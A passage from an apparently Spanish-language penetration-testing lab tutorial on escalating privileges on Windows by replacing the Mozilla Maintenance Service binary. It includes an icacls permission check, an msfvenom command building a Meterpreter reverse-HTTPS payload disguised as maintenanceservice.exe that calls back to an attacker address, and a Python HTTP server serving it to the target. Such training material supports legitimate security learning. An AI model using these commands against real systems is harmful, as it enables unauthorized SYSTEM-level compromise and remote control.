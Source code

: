 También podemos buscar cualquier software de terceros, que pueda ser aprovechado, como el **Mozilla Maintenance Service**. Este servicio se ejecuta en el contexto de **SYSTEM** y puede ser iniciado por usuarios no privilegiados. El binario

 (no protegido por el sistema) de este servicio se encuentra a continuación.

- `C:\Program Files (x86)\Mozilla Maintenance Service\maintenanceservice.exe`

### Checking Permissions on Binary

`icacls` confirma que solo tenemos permisos de lectura y ejecución en este binario basado en la línea `BUILTIN\Users:(I)(RX)` en la salida del comando.

```r
C:\htb> icacls "c:\Program Files (x86)\Mozilla Maintenance Service\maintenanceservice.exe"

C:\Program Files (x86)\Mozilla Maintenance Service\maintenanceservice.exe NT AUTHORITY\SYSTEM:(I)(F)
                                                                          BUILTIN\Administrators:(I)(F)
                                                                          BUILTIN\Users:(I)(RX)
                                                                          APPLICATION PACKAGE AUTHORITY\ALL APPLICATION PACKAGES:(I)(RX)
                                                                          APPLICATION PACKAGE AUTHORITY\ALL RESTRICTED APPLICATION PACKAGES:(I)(RX)
 
Successfully processed 1 files; Failed processing 0 files
```

### Generating Malicious Binary

Vamos a generar un binario **maintenanceservice.exe** malicioso que puede ser utilizado para obtener una conexión de **Meterpreter reverse shell** desde nuestro objetivo.

```r
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=10.10.14.3 LPORT=8443 -f exe > maintenanceservice.exe

[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 645 bytes
Final size of exe file: 7168 bytes
```

### Hosting the Malicious Binary

Podemos descargarlo al objetivo utilizando **cURL** después de iniciar un servidor **HTTP Python** en nuestro host de ataque como en la sección de **User Account Control** anteriormente. También podemos usar **wget** desde el objetivo.

```r
$ python3 -m http.server 8080

Serving HTTP on 0.0.0.0 port 8080 (http://0.0.0.0:8080/) ...
10.129.43.13 - - [01/Mar/2022 18:17:26] "GET /maintenanceservice.exe HTTP/1.1" 200 -
10.129.43.13 - - [01/Mar/2022 18:17:45] "GET /maintenanceservice.exe HTTP/1.1" 200 -
```
